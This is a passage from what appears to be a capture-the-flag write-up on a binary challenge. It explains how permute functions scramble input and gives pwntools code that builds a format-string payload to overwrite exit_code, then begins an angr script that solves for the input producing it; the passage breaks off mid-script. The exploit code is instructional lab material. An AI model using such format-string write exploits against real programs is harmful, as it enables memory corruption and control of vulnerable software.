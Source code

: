 ```c
    if (var_8h != *(int64_t *)(in_FS_OFFSET + 0x28)) {
        sym.imp.__stack_chk_fail();
    }
    return;
}
```

The operation for a `permute[1-8]` function will be the same between binaries.
For example, `permute1` always reverses the entire buffer and `permute4` swaps the start and end of the buffer.

Some of the internals for a `permute[1-8]` function also have minor changes.
For example, the index that separates the start and end used in the swap will change between binaries.

To successfully overwrite `_obj.exit_code`, we need to find an input that, after being manipulated by `permute`, will give us the desired format string payload.

### Payload Generation

The desired final payload is very easy to generate with pwntools.
We can use the built-in `fmtstr_payload` method to create a format string that will perform the write automatically.

The buffer is at offset 8, as it is 0x10 bytes from the top of the stack, and we want to write `code` to `ext.sym['exit_code']`:

```py
#!/usr/bin/env python3

from pwn import *

exe = context.binary = ELF('vuln')
...
io.recvuntil(b"Binary should exit with code ")
code = int(io.recvuntil(b"\n", drop=True))
fmt = fmtstr_payload(8, {exe.sym['exit_code']: code})
```

We can use angr to generate the input for our desired output.

```py
#!/usr/bin/env python3

from pwn import *
from binascii import unhexlify
import angr
import claripy
import r2pipe

exe = context.binary = ELF('vuln')

r = r2pipe.open(exe.path)
r.cmd('aaa')
ret = r.cmdj('pdfj @ sym.permute')['ops'][-1]['offset']

p = angr.Project(exe.path)

payload_chars = [claripy.BVS("byte_%d" % i, 8) for i in range(0x200)]
payload = claripy.Concat(*payload_chars + [claripy.BVV(b'\n')])
payload_addr = 0

s = p.factory.call_state(exe.sym['permute'], payload_addr,
        add_options=set.union(
            angr.options.unicorn,
            {
                angr.options.LAZY_SOLVES,
```